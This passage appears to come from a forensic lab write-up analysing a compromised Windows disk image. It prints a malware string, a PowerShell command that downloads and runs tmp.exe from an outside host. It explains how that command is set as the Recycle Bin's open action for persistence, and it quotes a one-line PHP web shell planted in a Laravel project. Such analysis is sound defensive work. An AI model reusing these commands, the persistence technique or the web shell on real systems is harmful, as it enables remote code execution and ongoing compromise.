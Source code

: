 ![[04.png]]


The auto analysis didn't show any dropped files, but I noticed that the shellcode tried to access non-existent executable files. So, it may not have been able to fully complete its mission.

![[05.png]]

### Disk analysis

I will mount the `Users.ad1` with `FTK Imager`, and after navigating through the mounted image, I will dump `temp.exe` from the `Public` user's directory and the folder `Projects` from `User2`'s profile.

![[Pasted image 20250722220215.png]]

I will use `strings` to get an idea about `temp.exe` and I found those two interesting strings
```
$ strings temp.exe
[Truncated]
SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell
C:\Windows\System32\WindowsPowerShell\v1.0\Powershell.exe -ExecutionPolicy Bypass -Command "(New-Object Net.WebClient).DownloadFile('http://s1rx.xyz/tmp.exe', 'C:\Windows\Temp\tmp.exe'); Start-Process 'C:\Windows\Temp\tmp.exe'"
```

Upon loading `temp.exe` into `IDA Freeware` and examining its strings, they were found within the `main` function. The target registry key is stored in the `lpSubKey` variable, while the PowerShell command is stored in the `str` variable. The Windows API function `RegOpenKeyExA` is then called, using `SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell` as the `lpSubKey` parameter. It specifies a `samDesired` value of `0x20006`, which indicates `STANDARD_RIGHTS_WRITE`, `KEY_SET_VALUE`, and `KEY_CREATE_SUB_KEY` access rights. This means the program is attempting to obtain a handle to this specific registry key with permissions to write, set values, and create subkeys.

![[06.png]]

Next, it creates a subkey named `open\\command`. The value from the `str` variable (which holds the PowerShell command) is then used as the `lpData` parameter, setting the value of this new subkey to the previously stored PowerShell command.

![[07.png]]

The registry key `SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell` is associated with the Recycle Bin. The `open\command` subkey is a standard subkey used to define the command that gets executed when the default action (usually 'Open') is performed on an object. By setting the value of `SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command` to a PowerShell command, the malware is attempting to achieve persistence through user interaction, as it ensures that the malware executes every time the user opens the Recycle Bin. This behavior corresponds to `Event Triggered Execution` (T1546) and the most suitable subtechnique is `Component Object Model Hijacking` [T1546.015](https://attack.mitre.org/techniques/T1546/015/).


The questions mentioned that the attacker added malicious code into one of the projects. While inspecting the Laravel project, I found that one of the files was modified, and the line `$testc = $_GET['s1']; echo` `` `$testc` `` `;` was added.
